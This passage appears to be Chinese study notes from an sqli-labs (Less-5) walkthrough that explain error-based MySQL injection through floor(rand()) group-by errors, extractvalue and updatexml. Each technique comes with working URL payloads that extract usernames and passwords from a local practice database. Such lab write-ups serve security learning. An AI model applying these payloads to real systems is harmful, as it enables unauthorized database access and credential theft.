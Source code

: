     * 写法
    > select * from test where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);

    * 运用
    >  http://localhost/sqlilabs2/Less-5/index.php?id=-1' union select 1,count(*),concat((floor(rand(0)*2)),'--',(select concat(id,'-',username,'-',password) from security.users limit 0,1))x from information_schema.tables group by x%23

    ![2020-1-3-16-33-7-Sqlilabs通关笔记(4-10)](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-3-16-33-7-Sqlilabs%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0(4-10)) 

    * 使用注意
        - payload是在中间concat部分，修改该部分可以执行不同命令
        - 只能用concat连接 ，group_concat不行，且每次只能显示一条数据
        - 要让上述的报错实现，数据库至少要3条数据

- **extractvalue函数注入**
    * 函数介绍
		- 对XML文档进行查询
		- EXTRACTVALUE (XML_document, XPath_string);
		- 第一个参数：XML_document是String格式，为XML文档对象的名称
		- 第二个参数：XPath_string (Xpath格式的字符串)
		- 作用：从目标XML中返回包含所查询值的字符串
    * 写法
		> select * from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));
    * 运用
		>  http://localhost/sqlilabs2/Less-5/index.php?id=-1' and (extractvalue(1,concat(0x7e,(select group_concat(username) from users),0x7e)))--+
	![2020-1-3-17-0-10-Sqlilabs通关笔记(5-6)](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-3-17-0-10-Sqlilabs%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0(5-6))
    * 使用注意
		- MySQL 5.1.5版本以上才支持该函数
		- 返回的数据限制为32位
		- 可以用substring函数进行数据位移偏转
			>  http://localhost/sqlilabs2/Less-5/index.php?id=-1' and (extractvalue(1,concat(0x7e,(select substring(group_concat(username),1) from users),0x7e)))--+

- **updatexml函数注入**
    * 函数介绍
		- 对XML文档进行修改
		- UPDATEXML (XML_document, XPath_string, new_value);
		- 第一个参数：XML_document是String格式，为XML文档对象的名称
		- 第二个参数：XPath_string (Xpath格式的字符串)
		- 第三个参数：new_value，String格式，替换查找到的符合条件的数据
		- 作用：改变文档中符合条件的节点的值
    * 写法
		> select * from test where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));
    * 运用
		>  http://localhost/sqlilabs2/Less-5/index.php?id=-1' and (updatexml(1,concat(0x7e,(select SUBSTRING(group_concat(username),12) from users),0x7e),1))--+
	![2020-1-3-17-17-6-Sqlilabs通关笔记(5-6)](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-3-17-17-6-Sqlilabs%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0(5-6))
    * 使用注意
		- MySQL 5.1.5版本以上才支持该函数
		- 返回的数据限制为32位
		- 可以用substring函数进行数据位移偏转
